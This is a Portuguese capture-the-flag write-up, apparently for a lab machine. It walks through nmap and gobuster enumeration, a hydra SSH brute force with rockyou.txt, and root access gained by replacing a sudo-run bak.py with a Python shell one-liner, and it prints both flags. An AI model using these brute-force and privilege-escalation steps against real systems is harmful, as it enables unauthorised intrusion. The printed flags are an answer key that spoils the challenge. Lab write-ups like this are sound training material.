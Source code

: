 Ao inicar dei o nmap para ver as portas abertas 

    nmap -A -sV IP 

Encontrei as portas 22 e 80

Ao entrar na pagina web fui vizualizar o codigo fonte, assim encontrando o username Meliodas

Ao dar um gobuster encontrei apenas diretorios comuns e dentro do /robots.txt tinha apenas um comentario a rockyou que e um arquivo famoso para quebrar senhas usando hydra

    hydra -l meliodas -P rockyou.txt -t 4 -F -V 10.10.221.178 ssh

Encontrando a senha...

    [22][ssh] host: 10.10.221.178   login: meliodas   password: iloveyou1

Assim...

    username: meliodas
    pass: iloveyou1

ao fazer o connect ssh encontramos a primeira flag "user.txt"

    cat user.txt
    6d488cbb3f111d135722c33cb635f4ec

Dentro do sistema encontrei um arquivo chamado bak.py que nosso user Meliodas poderia executar como root, sendo assim e so acessar o site GTFobins e modificar por um script python

Bom, percebi que nao podiamos alterar o arquivo.py mas podiamos apaga-lo, entao..

    rm -rf bak.py
    echo 'import os;os.system("/bin/sh")' >> bak.py

Assim conseguindo acessando ao root

    cd root
    cat root.txt
    e8c8c6c256c35515d1d344ee0488c617

Finalizando o desafio..

    touch dannydev19.txt

FLAGS

    FLAG 1: 6d488cbb3f111d135722c33cb635f4ec
    FLAG 2: e8c8c6c256c35515d1d344ee0488c617
    
![image](https://user-images.githubusercontent.com/86691253/185536143-cdd5340c-1cf4-4397-b36a-5d8f72e0aa3f.png)
